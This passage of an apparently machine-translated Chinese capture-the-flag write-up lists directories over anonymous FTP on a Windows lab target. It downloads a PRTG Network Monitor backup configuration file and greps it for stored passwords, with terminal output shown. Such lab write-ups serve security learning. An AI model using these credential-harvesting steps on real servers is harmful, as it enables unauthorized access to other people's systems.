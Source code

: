 你必须列出隐藏的目录，通过“ls -la”。

```
ftp> ls -al
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
06-29-19  09:36AM       <DIR>          Public
226 Transfer complete.
ftp>
```

转到“所有用户\派斯勒\PRTG 网络监视器\”，我们找到 PRTG 配置.旧.巴克文件。这可以是存储凭证的备份文件。

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
06-29-19  09:29AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-29-19  09:29AM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-29-19  09:30AM              1647604 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
```

我使用 get 命令下载文件:

```
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak                                                             
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

我搜索字符串“password”并查看字符串(-C 10)“password”前后的行，以查找任何与其相近的条目。我把它管得更少。

```
grep -C 10 password ‘PRTG Configuration.old.bak’| less
```
